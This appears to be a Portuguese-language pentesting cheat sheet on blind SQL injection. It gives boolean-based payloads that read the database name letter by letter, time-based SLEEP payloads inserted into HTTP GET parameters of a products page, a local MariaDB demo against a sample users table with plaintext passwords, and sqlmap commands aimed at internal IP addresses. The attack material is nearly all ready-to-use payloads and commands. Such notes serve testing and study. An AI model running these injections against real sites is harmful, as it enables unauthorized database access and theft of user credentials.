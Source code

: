 #### Blind
verifica se a primeira letra do nome da base de dados é `d`
```
' and ascii(substring(database(),1,1)) == 100 #
' and ascii(substring(database(),INDEX,1)) == 100 #
```

**exemplos de payloads (decodados)**
```
# Exemplo 1
## exemplo generico
GET /produtos.php?mprod=0&cat==26 AND (SELECT [QUALQUER_NUMERO] FROM (SELECT(SLEEP(3)))[QUALQUER_STRING])&subcat=161&pag=3 HTTP/1.1

## exemplo particular
GET /produtos.php?mprod=0&cat==26 AND (SELECT 111111111111111234 FROM (SELECT(SLEEP(3)))string_qualquer_aqui)&subcat=161&pag=3 HTTP/1.1

## exemplo local
SELECT 11111111111111118818 FROM (SELECT(SLEEP(3)))string_qualquer_aqui;


```
obs: No exemplo 1, apenas o parametro `cat` era vulnerável à sql injection

```
select * from usuarios;
+----+---------+-----------+
| id | nome    | senha     |
+----+---------+-----------+
|  1 | alice   | senha123  |
|  2 | bob     | 1234senha |
|  3 | charlie | passw0rd  |
+----+---------+-----------+
3 rows in set (0.000 sec)


MariaDB [teste]> select * from usuarios where id = sleep(5);
Empty set (15.020 sec)


```

#### sqlmap
**descobrindo sql injection**
```
sqlmap -u "[URL]"

# exemplo
sqlmap -u "http://172.16.1.245/produtos.php?mprod=0&cat=26&subcat=161&pag=3" 

# testando sql injection num parametro específico -p <param>
sqlmap -u "http://172.16.1.116/acs/admin.php?pw=admin&page=/acs/index.php&del=3" -p del
```
